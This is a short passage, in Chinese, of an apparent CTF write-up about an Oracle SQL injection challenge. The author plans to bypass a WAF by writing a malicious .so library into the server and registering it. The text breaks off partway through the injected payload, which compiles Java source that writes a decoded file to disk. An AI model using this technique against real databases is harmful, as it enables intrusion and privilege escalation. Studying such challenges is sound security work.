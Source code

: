 题目就是这样，一个 oracle 注入，做了一些过滤，然后是任意 sql 语句执行。然后这一题首先我们是不可以使用任何 Java 代码中的 RCE 函数。首先 oralce 内置的 jdk 好像是 1.6，其次题目 waf 中过滤了所有命令执行函数，因此是行不通的（System.load 确实也不可以)  
那么这一题的思路其实就回到了之前讲到的 lib 加载了，和 mysql 的 udf 提权有点类似，写一个恶意 so 进去，然后给他注册了。  
首先创建 Java Source，创建起来，可以看到后台是创建成功了的

```plain
sql=create or replace and compile java source named "JavaTool" as
import java.io.ByteArrayInputStream;
import java.io.FileOutputStream;
import java.util.zip.GZIPInputStream;

public class JavaTool {
    public static String write(String path) throws Exception {
```